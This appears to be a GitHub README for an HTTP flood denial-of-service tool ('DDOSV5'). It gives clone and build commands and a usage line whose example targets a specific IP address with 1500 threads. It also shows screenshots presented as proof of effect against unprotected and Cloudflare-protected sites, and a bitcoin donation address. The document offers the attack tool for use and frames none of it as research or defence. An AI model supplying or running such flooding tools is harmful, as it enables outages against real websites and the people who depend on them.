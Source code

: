 # HTTP-Flood
Just simple httpflood

## Install
```sh
git clone https://github.com/SonuModder1/DDOSV5
cd DDOSV5
go mod init http 
go get github.com/valyala/fasthttp
go build 
```
## Usage 
```sh
./http <target> <GET/POST> <threads>
example: ./http http://51.159.30.249 POST 1500
```

## Power-proof
### Non-Protect
![alt-text](https://i.imgur.com/2WQ4jk6.png)
### Cloudflare-Low 
![alt-text](https://i.imgur.com/8bxScW1.png)
## Donate 
btc: 3JzWqmqH6YwXVVoBWsTuSgJg3qQXNHcgPp
